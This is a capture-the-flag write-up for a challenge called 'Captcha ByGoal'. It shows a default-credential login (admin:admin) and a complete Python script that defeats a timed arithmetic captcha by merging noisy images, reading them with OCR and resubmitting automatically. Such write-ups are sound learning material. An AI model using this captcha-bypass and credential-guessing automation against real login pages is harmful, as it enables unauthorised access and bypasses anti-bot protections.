


# Captcha ByGoal

```
Не намагайтеся зігнути ложку - це неможливо. Натомість намагайтеся лише усвідомити істину.
```

After following the [link](https://captcha-bygoal.ua30ctf.org/) we get to the login page



Of course we try _admin:admin_ credentials, otherwise we would not be hackers.

---

And we guessed it right. Now we can see the following captcha



It has a time limit, so i tried to solve it as fast as i can, but couldn't quite do it in time a bunch of times. So i looked at the captcha itself (right click -> open image in new tab) and got to _/img.php_ endpoint. If we refresh the page, the values are unchanged but the noise is. That's interesting. 

So if we can't do it by hand, i thought about automating it and wrote a python script

```python
#!/usr/bin/env python3

from PIL import Image
from io import BytesIO
import pytesseract
import requests
import re

def main():
  url = 'https://captcha-bygoal.ua30ctf.org/img.php'
  cookie = 'fd883a893fe47c11e87db162cca675c2'
  imgs = []
  # the more, better quality
  sample_size = 3
  for i in range(sample_size):
    img = Image.open(requests.get(url, stream=True, cookies={'PHPSESSID': cookie}).raw)
    imgs.append(img)

  pixels = [img.load() for img in imgs]
  width, height = imgs[0].size
  res_img = Image.new('1', (width, height))
  res_pix = res_img.load()


  for i in range(width):
    for j in range(height):
      temp = []
      for k in range(len(pixels)):
        temp.append(sum(pixels[k][i, j]))
      res_pix[i, j] = 255 if min(temp) < 300 else 0
  # Perform OCR
  text = pytesseract.image_to_string(res_img, config='--psm 6')

  expr = re.findall(r'\d+|\+|\-|\*|\/|\(|\)', text)
  result = eval(''.join(expr))
  req = requests.post(
    'https://captcha-bygoal.ua30ctf.org/index.php',
    cookies={'PHPSESSID': cookie},
    data={'login':'admin', 'password':'admin', 'captcha':result}
  )
  for line in req.content.decode().split('\n'):
    if 'expired' in line:
      main()
    elif 'ctf{' in line or 'CTF{' in line:
      print(line[6:])


if __name__ == '__main__':
  main()

```

To summarize it, we make a few requests to the _/img.php_ endpoint and get several similar pictures with different noise. 
Cookies are necessary to get the access to the endpoint as a part of authorization process. Then we convert those images from bytes to pixel values and create a new picture that will be without the noise. We loop through each pixel with RGB values and _sum_ them in order to get the unified values. 
Background is always grey and the operators with operands are always close to white (so as noise). Therefore if the minimum value (which is probably grey if its background or white if it's a character. more sample size gives better accuracy because of noise but lower speed) from sample images doesn't pass the treshhold we paint it as white, otherwise as black. then we use pytesseract to perform OCR on the image and extract the string based on the given regex, we extract the values (in case there was an error) and submit the result via post request. the last for loop is just for convenience to extract the flag from response body and if not found execute again.

---

## ctf{Everything_is_physics_and_math}


